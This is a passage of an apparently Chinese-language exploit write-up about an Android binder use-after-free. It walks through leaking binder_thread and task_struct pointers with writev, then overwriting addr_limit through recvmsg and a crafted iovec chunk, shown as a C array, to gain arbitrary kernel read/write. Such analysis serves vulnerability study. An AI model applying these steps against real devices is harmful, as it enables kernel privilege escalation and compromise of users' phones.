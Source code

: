在list_del后, list_head的prev和next都指向了自己，即此时`iovec[11].iov_base`被改写为了内核地址（ list_head ，即 binder_thread + 0xa8 ）。
![](https://upload-images.jianshu.io/upload_images/13348817-e66228aea8f0b81b.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

而后通过`writev`来泄露binder_thread 。（在此之前，先向Pipe中写入数据解除writev的阻塞）
由于task_struct 指针在binder_thread + 0x190，此时我们也即泄露出了task_struct指针。

![](https://upload-images.jianshu.io/upload_images/13348817-53e509d39e1dbcab.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

### Overwriting the Address Limit
由于知道了`task_struct`指针，我们可以再次利用UAF修改address limit ，即task_struct + 0x08。
此处利用`recvmsg`：
我们将从 unix domain socket 读入数据存放到scatter I/O中分散的buffer，每当填充完一个buffer后，指向下一个buffer继续填充。在list_del之后，scatter I/O准备将数据放入`iovec[11].iov_base`。`iovec[11].iov_base`在list_del后，指向`wait_queue`的`list head`.  我们希望把`iovec[12].iov_base`设置为addr_limit的地址以完成overwrite
我们将`iovec[11].iov_len`设置为0x28，这是`iovec[10].iov_len`, `iovec[11].iov_base`, `iovec[11].iov_len`, `iovec[12].iov_base`, `iovec[12].iovec_len`5个元素的长度。

将addr_limit 改为0xFFFFFFFFFFFFFFFE， 比`KERNEL_DS`小1，来绕过iov_iter_init()中的segment_eq(get_fs(), KERNEL_DS)分支

块构造如下
```
  unsigned long second_write_chunk[] = {
    1, /* iov_len */ (already used) */
    0xdeadbeef, /* iov_base (already used) */
    0x8 + 2 * 0x10, /* iov_len (already used) */
    current_ptr + 0x8, /* next iov_base (addr_limit) */
    8, /* next iov_len (sizeof(addr_limit)) */
    0xfffffffffffffffe /* value to write - new addr_limit */
  };
```

| Values after list_del operation, prior to recvmsg | Values after recvmsg |
| :-: | :-: |
| 0x00 | 0x00 |
| ... | ... |
| 0xA8: iovec[10].iov_len (+0xA8 (points to itself)) | 0xA8: iovec[10].iov_len (1) |
| 0xB0: iovec[11].iov_base (+0xA8 (points to previous element)) | 0xB0: iovec[11].iov_base (0xDEADBEEF) |
| 0xB8: iovec[11].iov_len (0x28) | 0xB8: iovec[11].iov_len (0x28) |
| 0xC0: iovec[12].iov_base (0xBEEFDEAD) | 0xC0: iovec[12].iov_base (task_struct + 0x8) |
|0xC8: iovec[12].iov_len (0x8) | 0xC8: iovec[12].iov_len (0x8)|
![](https://upload-images.jianshu.io/upload_images/13348817-ab024dbeab9e6d4d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

将address limit修改为0xfffffffffffffffe后，我们就有任意地址读写的能力了。
